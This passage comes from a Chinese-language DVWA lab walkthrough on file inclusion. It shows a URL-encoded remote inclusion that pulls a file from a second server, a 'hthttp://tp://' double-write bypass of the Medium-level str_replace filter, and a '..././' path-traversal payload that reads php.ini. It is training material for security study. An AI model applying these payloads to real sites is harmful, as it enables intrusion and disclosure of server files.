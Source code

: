 为了增加隐蔽性,可以对 http://<服务器B IP地址!!!>/phpinfo.txt 进行 URL 编码

例如

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=http://192.168.72.138/phpinfo.txt`

可以编码为

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%37%32%2e%31%33%38%2f%70%68%70%69%6e%66%6f%2e%74%78%74` 同样可以执行成功

### Medium

**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

可以看到,Medium 级别的代码增加了 str_replace 函数,对 page 参数进行了一定的处理,将"http:// "、"https://"、 " ../"、"..\"替换为空字符,即删除.

**相关函数**
- **str_replace()**
	str_replace() 函数以其他字符替换字符串中的一些字符(区分大小写).

	该函数必须遵循下列规则:
	- 如果搜索的字符串是数组,那么它将返回数组.
	- 如果搜索的字符串是数组,那么它将对数组中的每个元素进行查找和替换.
	- 如果同时需要对数组进行查找和替换,并且需要执行替换的元素少于查找到的元素的数量,那么多余元素将用空字符串进行替换
	- 如果查找的是数组,而替换的是字符串,那么替代字符串将对所有查找到的值起作用.

**漏洞利用**

使用 str_replace 函数是极其不安全的,因为可以使用双写绕过替换规则.

例如 `page=hthttp://tp://<IP地址!!!>/phpinfo.txt` 时,str_replace 函数会将 http:// 删除,于是 `page=http://<IP地址!!!>/phpinfo.txt`,成功执行远程命令.

同时,因为替换的只是"../"、"..\",所以对采用绝对路径的方式包含文件是不会受到任何限制的.

**本地文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=..././..././..././..././..././..././..././..././..././phpStudy/PHPTutorial/WWW/DVWA/php.ini` 读取配置文件成功

![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa21.png)
